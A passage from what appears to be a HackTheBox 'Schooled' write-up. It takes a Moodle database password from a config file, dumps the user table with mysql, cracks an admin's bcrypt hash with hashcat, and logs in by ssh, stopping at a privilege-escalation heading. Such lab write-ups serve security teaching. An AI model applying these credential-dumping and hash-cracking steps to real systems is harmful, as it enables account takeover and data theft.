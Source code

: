 ```
$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);
```

### Getting credentials from moodle schema

Let's log into the sql server:
```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e "SELECT @@version;"
# 8.0.23
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e "SELECT schema_name FROM information_schema.schemata;"
# Identified moodle schema
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e "use moodle; show tables"
# Identified mdl_user Which contains hashed passwords
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e "use moodle; select * from mdl_user"
# Jamie has a hash and is admin on the site.
```

Since Jamie is an account member on the box, I first identified that hash type using hashid:

```
hashid '$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW' 
Analyzing '$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

### Decrypting bcrypt password hash
Now that we know it's a bcypt hash, let's use hashcat to brute force the hash:
```
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Alternative: John `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt -format=bcrypt`

Let's ssh using jamie: `ssh jamie@schooled.htb` (password: !QAZ2wsx)

## Privilege Escalation to root

### Sudo privileges

